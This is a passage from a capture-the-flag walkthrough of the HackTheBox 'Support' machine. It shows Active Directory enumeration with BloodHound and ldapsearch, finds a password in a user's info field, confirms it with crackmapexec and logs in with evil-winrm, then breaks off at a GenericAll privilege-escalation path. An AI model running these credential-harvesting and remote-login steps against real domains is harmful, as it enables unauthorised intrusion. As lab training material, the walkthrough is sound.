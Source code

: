 ```
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174

INFO: Found AD domain: support.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.support.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 02S
```

ldapsearch will show all the items in the AD, which I can look through:
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" | less`

There’s a user named support with an interesting info field:
`info: Ironside47pleasure40Watchful`
I guess it would be the password of one of user.

Looking at the Bloodhound data, support shows up there as a member of Remote Management Users:
![[Pasted image 20240905125823.png]]

crackmapexec confirms:
```
crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'

WINRM       support.htb     5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)

```

Let's use `evil-WinRM` to connect it.
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`
Then we can get the user.txt

3, shell as SYSTEM
Looking at the Bloodhound data again, the support user is a member of the Shared Support Accounts group, which has GenericAll on the computer object, DC.SUPPORT.HTB:
![[Pasted image 20240905130300.png]]
